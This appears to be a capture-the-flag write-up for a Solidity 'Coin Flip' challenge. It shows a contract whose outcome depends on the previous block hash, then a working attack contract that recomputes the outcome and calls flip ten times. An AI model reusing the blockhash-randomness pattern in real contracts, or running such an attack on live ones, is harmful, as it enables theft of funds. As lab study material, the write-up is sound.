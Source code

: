 # Description
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Notes

- Reading the task description and basing on the fact that smart contract executing is deterministic, I started the challenge with the impression that it will simply be a reversing challenge.
But you can notice that the outcome of the `flip` function is based on the hash of the previous block.

- One other "possible" solution is to guess the 10 coin flips which should have a probability of `(1/2)^10` which is pretty anoying to just keep on guessing.

- We can drop our probability of guessing owning the contract down to `1/2` by simply submitting our guess by signing 10 transactions at once which will result in the transaction being added to the same block and having the same block hash thus same coin output, but unfortunatly this case is handled by the developer by saving the previous hash of the block in a variable `lastHash` to prevent this workarround.

- Given the fact that our guess is dependant on the hash of the previous block, it becomes obvious that our goal here is to write an attack smart contract that will help us win this.

- The attack contract is fairly easy, and it looks something like this (the address of our target contract used here in the constructor of the attack contract can be gotten using the command : `contract.address`) :
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface ICoinFlipChallenge {
    function flip(bool _guess) external returns (bool);
}

contract AttackContract {

    ICoinFlipChallenge public challenge;

    constructor() {
        challenge = ICoinFlipChallenge(0x134AE2C83EcD0fa59aCb4A08be87f07410e72d09);
    }

    function attack() external payable {
        // simulate the same what the challenge contract does
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;

        // call challenge contract with same guess
        challenge.flip(side);

    }

}
```

- After calling the `attack` function of our attack contract 10 times, we can verify that it worked using `await contract.consecutiveWins()`